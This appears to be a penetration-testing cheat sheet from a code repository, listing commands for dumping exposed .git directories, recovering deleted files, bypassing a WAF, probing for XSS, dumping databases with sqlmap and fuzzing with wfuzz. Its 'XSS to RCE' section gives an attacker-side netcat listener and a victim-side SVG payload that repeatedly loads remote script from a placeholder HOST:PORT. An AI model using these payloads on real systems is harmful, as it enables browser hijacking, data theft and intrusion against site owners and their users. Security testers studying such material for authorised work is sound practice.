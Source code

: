 ## Git
### Dumping repository
```bash
$ ./gitdumper.sh <location_of_remote_or_local_repostiory_having./.git> <destination_folder>
```

### Extracting information from repository
```bash
$ ./extractor.sh <location_folder_having_.git_init> <extract_to_a_folder>
```

### Recover deleted files
```bash
# If you don't remember the exact path/name, search the log for deleted files
git log --diff-filter=D --summary | grep delete

# Find last commit for the deleted file
git rev-list -n 1 HEAD -- $path

# Checkout the commit before the the delete happened
git checkout $commit^ -- $path
```

## Web
### Authorization
- Bypass waf json: 

    ```bash
    $ curl blabla/1 -H 'Accept: application/json'
    ```

### XSS
- Initial foothold using: `1234'"><`.

### XSS to RCE
```bash
# Attacker:
while :; do printf "j$ "; read c; echo $c | nc -lp PORT >/dev/null; done

#Victim: 
<svg/onload=setInterval(function(){d=document;z=d.createElement("script");z.src="//HOST:PORT";d.body.appendChild(z)},0)>
```

### SQL Map
```bash
$ sqlmap -r request.txt --dbms=mysql --dump
```

### Wfuzz
```bash
$ wfuzz -c -z file,wordlist.txt --hh=0  http://<ip>/<path>/?date=FUZZ
```
